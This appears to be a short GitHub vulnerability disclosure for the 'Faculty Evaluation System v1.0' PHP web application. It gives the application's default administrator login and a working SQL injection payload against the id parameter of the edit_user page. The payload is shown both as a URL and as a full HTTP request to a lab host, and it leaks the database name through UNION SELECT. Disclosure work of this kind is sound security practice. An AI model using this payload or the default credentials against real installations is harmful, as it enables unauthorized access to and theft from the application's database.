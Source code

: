 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author:  JinYunlei

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/index.php?page=edit_user&id=

Vulnerability location: /eval/index.php?page=edit_user&id=, id

dbname =evaluation_db

[+] Payload: /eval/index.php?page=edit_user&id=-1%20union%20select%201,database(),3,4,5,6,7--+ // Leak place ---> id

```sql
GET /eval/index.php?page=edit_user&id=-1%20union%20select%201,database(),3,4,5,6,7--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233831729-c9486b09-3c84-49d7-abba-be6c19926606.png)
